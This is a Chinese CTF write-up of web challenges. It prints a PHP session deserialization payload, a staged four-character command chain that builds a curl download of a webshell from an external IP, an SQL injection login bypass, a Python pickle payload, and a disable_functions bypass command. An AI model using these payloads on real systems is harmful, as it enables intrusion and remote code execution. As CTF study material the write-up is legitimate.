

前言，现在看了nepnep的writeup，有很多当时有想法没完成的，现在补一下。
web
1.hackme
打开页面，随便翻了一下，admin可以登录，有个框随便测了下，没什么发现，扫了一下目录有www.zip，找到了网站源码，看了一下，在profile.php，有session反序列化。所以sign传参|O:4:"info":2:{s:5:"admin";i:1;s:4:"sign";s:1:"a";} 跳转./core/index.php
<?php
error_reporting(0);
session_save_path('session');
include 'lib.php';
ini_set('session.serialize_handler', 'php');
session_start();
class info
{
public $admin;
public $sign;
public function __construct()
{
$this->admin = $_SESSION['admin'];
$this->sign = $_SESSION['sign'];
}
public function __destruct()
{
echo $this->sign;
if ($this->admin === 1) {
redirect('./core/index.php');
}
}
}
$a = new info();
?> //profile.php<?php
require_once('./init.php');
error_reporting(0);
if (check_session($_SESSION)) {
#hint : core/clear.php
$sandbox = './sandbox/' . md5("Mrk@1xI^" . $_SERVER['REMOTE_ADDR']);
echo $sandbox;
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_POST['url'])) {
$url = $_POST['url'];
if (filter_var($url, FILTER_VALIDATE_URL)) {
if (preg_match('/(data:\/\/)|(&)|(\|)|(\.\/)/i', $url)) {
echo "you are hacker";
} else {
$res = parse_url($url);
if (preg_match('/127\.0\.0\.1$/', $res['host'])) {
$code = file_get_contents($url);
if (strlen($code) <= 4) {
@exec($code);
} else {
echo "try again";
}
}
}
} else {
echo "invalid url";
}
} else {
highlight_file(__FILE__);
}
} else {
die('只有管理员才能看到我哟');
} //./core/index.php这个和hitcon-ctf-2017/babyfirst-revenge-v2差不多，url的过滤可以用url=compress.zlib://data:@127.0.0.1/,xxxx 后面接要执行的命令要在四个字符内。具体命令构造参考 hitcon-ctf-2017官方wp 我的payload如下，下载一句话到所在目录，最后在根目录找到flag。
>dir
>sl
>g\>
>ht-
*>v
>rev
*v>x
>p
>ph\
>b.\
>\>\
>0\
>08\
>:8\
>94\
>2.\
>6\
>3.\
>10\
>7.\
>4\
>\+\
>rl\
>cu\
sh+x
sh+g2.sqlcheckin
用户名admin，密码1’-‘1或’-‘就可以，当查询为0时返回所有数据
3.webtmp
这个题目是按照这个出的 传送门 我昨天看了一下，一直在尝试rce，可惜不行，没想到是修改secret里的属性，思路太局限。payload如下
payload = b'\x80\x03c__main__\nsecret\n}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00ruaX\x08\x00\x00\x00categoryX\x03\x00\x00\x00wwwub0c__main__\nAnimal\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00ruaX\x08\x00\x00\x00categoryX\x03\x00\x00\x00wwwub.'
// base64编码后的数据gANjX19tYWluX18Kc2VjcmV0Cn0oWAQAAABuYW1lWAMAAABydWFYCAAAAGNhdGVnb3J5WAMAAAB3d3d1YjBjX19tYWluX18KQW5pbWFsCimBfShYBAAAAG5hbWVYAwAAAHJ1YVgIAAAAY2F0ZWdvcnlYAwAAAHd3d3ViLg==
4.PHP-UAF
bypass disable_function执行命令，用这个师傅的exp 传送门 ，包含执行命令即可。
cmd=$it=new DirectoryIterator("glob:///*");foreach($it as $f) {printf("%s ",$f->getFilename());}
// 查看根目录结构